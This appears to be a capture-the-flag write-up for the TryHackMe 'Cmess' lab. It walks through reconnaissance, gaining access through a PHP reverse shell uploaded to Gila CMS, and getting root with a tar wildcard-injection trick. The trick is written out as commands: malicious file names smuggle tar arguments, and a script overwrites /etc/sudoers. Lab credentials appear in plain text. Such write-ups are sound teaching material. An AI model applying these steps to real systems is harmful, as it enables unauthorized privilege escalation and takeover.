 ```yaml
---
date: 2020-05-18
layout: post
title: "Cmess"
subtitle:
description: Medium Machine from tryhackme
image: /writeup/assets/img/cmess/cmess.png
optimized_image:
category: tryhackme
tags: medium
author: cirius
paginate: false
---
```

<a href="https://tryhackme.com/room/cmess">Link</a> to the machine on Tryhackme.

Starting with what is told to do by machine author.
Making an entry for the ip in /etc/hosts.

Added ***10.10.10.185.18  cmess.thm*** to the /etc/hosts file.

Scanning for open ports gives,
```bash
nmap -T4 -p- -A 10.10.185.18
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d9:b6:52:d3:93:9a:38:50:b4:23:3b:fd:21:0c:05:1f (RSA)
|   256 21:c3:6e:31:8b:85:22:8a:6d:72:86:8f:ae:64:66:2b (ECDSA)
|_  256 5b:b9:75:78:05:d7:ec:43:30:96:17:ff:c6:a8:6c:ed (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: Gila CMS
| http-robots.txt: 3 disallowed entries 
|_/src/ /themes/ /lib/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 3.13 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (92%), Sony Android TV (Android 5.0) (92%), Android 5.0 - 6.0.1 (Linux 3.4) (92%), Android 5.1 (92%), Android 7.1.1 - 7.1.2 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 443/tcp)
HOP RTT       ADDRESS
1   376.32 ms 10.8.0.1
2   376.38 ms cmess.thm (10.10.160.221)
```
The website hosted at port 80 contains robots.txt
![placeholder](/writeup/assets/img/cmess/robots.png "robot")

Accessing all the directories listed in robots.txt gives FORBIDDEN 403 error.
Directory and file file busting through ffuf gives
 ![placeholder](/writeup/assets/img/cmess/directory.png "directory")
 admin directory gives a login page.
 ![placeholder](/writeup/assets/img/cmess/login.png "login")
 The website is working with GilaCMS as written on the homepage.
 Nothing interesting found yet. Searching for exploits also is not much helpful as version of gilacms is still unknown.
 
 Then I thought to go for subdomains.
 ```bash
 ffuf -w sublists -u http://cmess.thm -H "Host: FUZZ.cmess.thm" -fw 522
 
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.0.2
________________________________________________

 :: Method           : GET
 :: URL              : http://cmess.thm/
 :: Header           : Host: FUZZ.cmess.thm
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
 :: Filter           : Response words: 522
________________________________________________

dev                     [Status: 200, Size: 934, Words: 191, Lines: 31]

## Here fw specifies the amount of words to filter. This can be set as first run the scan without fw and see the response which are getting 200 and
## note the number of words in their response.That number which is common in most use it as word filter(fw) in the next scan
```
So I got a subdomain dev.
Make an entry of this subdomain in the /etc/hosts file.
It will look like
![placeholder](/writeup/assets/img/cmess/hosts.png "hosts")

Now accessing the subdomain *dev.cmess.thm* gives
![placeholder](/writeup/assets/img/cmess/mail.png "mail")

Got an email and a password.

**andre@cmess.thm:KPFTN_f2yxe%**
Used it to login at the login page.
 ![placeholder](/writeup/assets/img/cmess/gila.png "gilacms")
 
Clicked on Content and then file manager and reached the directory where all the files related to website are stored.
Uploaded a php reverse shell with the upload option inside assets directory.

Accessed the php file at *http://cmess.thm/assets/phpshell.php* and got the reverse shell.
![placeholder](/writeup/assets/img/cmess/shell.png "shell")

Found .password.bak file inside /opt/. Found a password inside the file.
```bash
cat .password.bak
andres backup password
UQfsdCB7aAP6
```
Used this password to login with ssh as andre user.
![placeholder](/writeup/assets/img/cmess/ssh.png "ssh")

Got the user.txt.

Uploaded Linpeas.sh using wget and ran it.

This showed a 99% P.E. Vector at a cron job
![placeholder](/writeup/assets/img/cmess/linpeas.png "cron")

This cronjob is using tar with wildcard(*).So I used wildcard injection.
Executed these commands.
```bash
echo 'echo "andre ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > privesc.sh
echo "" > "--checkpoint-action=exec=sh privesc.sh"
echo "" > --checkpoint=1

##tar command uses **checkpoint-action=ACTION** argument to execute the ACTION on each checkpoint

##--checkpoint[=NUMBER]
  ##  display progress messages every NUMBERth record (default 10)
```
You can learn more about tar wildcard injection <a href="https://medium.com/@int0x33/day-67-tar-cron-2-root-abusing-wildcards-for-tar-argument-injection-in-root-cronjob-nix-c65c59a77f5e">here</a>.

The above commands create three files
* A file named privesc.sh; which contains the commands I want to run
* A file named "--checkpoint-action=exec=sh privesc.sh";this will trigger the tar command to execute privesc.sh when a checkpoint is reached.
* A file named "--checkpoint=1"; this will make checkpoint-action to trigger at every 1th record read rather than default 10th record read.

Now when the cron job executes it creates an entry in sudoers file to grant andre user permission to run sudo for all commands without asking for password.

Changed the user to root.

```bash
sudo su
```

Got the root.txt.





 

